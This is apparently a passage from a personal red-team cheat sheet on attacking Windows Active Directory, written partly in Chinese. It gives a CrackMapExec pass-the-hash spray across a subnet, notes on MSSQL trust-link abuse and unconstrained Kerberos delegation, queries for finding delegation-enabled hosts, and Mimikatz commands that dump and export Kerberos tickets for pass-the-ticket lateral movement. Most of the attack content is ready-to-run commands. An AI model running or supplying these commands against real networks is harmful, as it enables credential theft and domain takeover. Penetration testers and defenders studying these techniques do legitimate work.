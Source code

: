 ```bash
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

### MSSQL Trustlink- need to learn 

+ if a user has privileges to access MSSQL instances, he could be able to use it to execute commands in the MSSQL host (if running as SA).
+ [hacktricks mssql trust links](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)

```bash

```

### Unconstrained Delegation 
+ unconstrained delegation, from [red team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
  > Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user;
  > Usually, this privilege is given to computers (in this lab, it is assigned to a computer IIS01) running services like IIS, MSSQL, etc.;
  > Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf;
  > When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory;
  >The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.
+ 攻击过程说明
  > User --- authenticates to ---> IIS server ---> authenticates on behalf of the user ---> DB server
  > computer IIS servier开启非约束委派，IIS 将保存所有访问用户TGT在内存中，以便提供相应的服务；
  > 获取IIS server system权限后导出高权限用户TGT，模拟该用户访问其他服务实现横向移动(cifs)
+ [Kerberos攻击技巧](https://xz.aliyun.com/t/8690#toc-63),[常见横向移动与域控维持](https://xz.aliyun.com/t/9382#toc-16)
+ other force auth tech, [hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse)


#### common usage
```bash
## powerview enum unconstrained computer
## DCs always appear but aren't useful for privesc
## useraccountcontrol contains TRUSTED_FOR_DELEGATION or ADS_UF_TRUSTED_FOR_DELEGATION.
Get-NetComputer -Unconstrained 
Get-Domaincomputer -Unconstrained | select name, dnshostname, useraccountcontorl

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# export high value account's ticket on the compromised target;
## Export tickets with Mimikatz
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# load ticket of admin in memory with mimikatz or rebeus for pass the ticket
## mimikatz, explort admininstrator's tgt
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

## import tgt, ptt attack
```